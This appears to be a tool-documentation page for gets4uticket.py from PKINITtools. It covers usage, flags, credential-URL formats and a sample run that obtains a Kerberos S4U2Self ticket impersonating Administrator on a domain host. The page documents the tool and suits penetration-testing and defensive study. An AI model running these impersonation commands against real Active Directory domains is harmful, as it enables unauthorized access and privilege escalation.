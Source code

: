 ```yaml
---
title : "gets4uticket.py"
# pre : ' '
description : "Gets an S4U2self ticket impersonating given user."
date : 2023-12-03T06:11:51+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## gets4uticket.py - Gets an S4U2self ticket impersonating given user

Uses Kerberos S4U2Self to request a service ticket that is valid on the host for which you've obtained a certificate. This ticket can then be used to interact with the original host. This only requires a TGT for the machine account of this host. This TGT should be in a ccache file that you specify in the `kerberos_connection_url`. The only accepted `kerberos_connection_url` for this example is one containing a ccache file, so for example `kerberos+ccache://domain.local\\victimhostname\$:victimhostname.ccache@kdchostname.domain.local`. The SPN should be a service name on the host you are impersonating, you can't use this for delegation attacks (since it does not implement S4U2Proxy, there are plenty of tools already for that).

## Installation

Install [PKINITtools]({{< ref "pkinittools" %}}).

## Usage

```plain
gets4uticket.py [-h] [-v] kerberos_connection_url spn targetuser ccache
```

## Flags

```plain
positional arguments:
  kerberos_connection_url
                        the kerberos target string in the following format kerberos+ccache://domain\user:file.ccache@<domaincontroller-ip>
  spn                   the service principal in format <service>/<server-hostname>@<domain> Example: cifs/fileserver.test.corp@TEST.corp for a TGS ticket to be used for file access on server "fileserver". IMPORTANT:
                        SERVER'S HOSTNAME MUST BE USED, NOT IP!!!
  targetuser
  ccache                ccache file to store the TGT ticket in

options:
  -h, --help            show this help message and exit
  -v, --verbose

==== Extra Help ====
   kerberos connection url secret types: 
   - Plaintext: "pw" or "pass" or "password"
   - NT hash: "nt"
   - RC4 key: "rc4"
   - AES128/256 key: "aes"
   - CCACHE file: "ccache"
   - SSPI: "sspi"
   
   Example:
   - Plaintext + SOCKS5 proxy:
      kerberos+password://domain\user:SecretPassword@127.0.0.1/proxytype=socks5&proxyhost=127.0.0.1&proxyport=1080
   - Plaintext:
      kerberos+password://domain\user:SecretPassword@127.0.0.1
      kerberos+pw://domain\user:SecretPassword@127.0.0.1
      kerberos+pass://domain\user:SecretPassword@127.0.0.1
   - NT hash:
      kerberos+nt://domain\user:921a7fece11f4d8c72432e41e40d0372@127.0.0.1
   - SSPI:
      TEST/user/sspi:@192.168.1.1
   - RC4 key:
      kerberos+rc4://domain\user:921a7fece11f4d8c72432e41e40d0372@127.0.0.1
   - AES key:
      kerberos+aes://domain\user:921a7fece11f4d8c72432e41e40d0372@127.0.0.1
   - CCACHE file:
      kerberos+ccache://domain\user:creds.ccache@127.0.0.1
   - KEYTAB file:
      kerberos+keytab://domain\user:creds.keytab@127.0.0.1
   - PFX file:
      kerberos+pfx://TEST.corp\Administrator:admin@10.10.10.2/?certdata=test.pfx
   - PFX string (b64):
      kerberos+pfxstr://TEST.corp\Administrator:admin@10.10.10.2/?certdata=BASE64DATA
   - No auth (preauth not req):
      kerberos+none://TEST.corp\asrepuser@10.10.10.2/
```

## Examples

```plain
(PKINITtools) user@localhost:~/PKINITtools$ python gets4uticket.py kerberos+ccache://testsegment.local\\s2019dc\$:s2019dc.ccache@s2016dc.testsegment.local cifs/s2019dc.testsegment.local@testsegment.local Administrator@testsegment.local out.ccache -v
2021-07-28 10:09:13,687 minikerberos INFO     Trying to get SPN with Administrator@testsegment.local for cifs/s2019dc.testsegment.local@testsegment.local
2021-07-28 10:09:13,695 minikerberos INFO     Success!
2021-07-28 10:09:13,696 minikerberos INFO     Done!
```
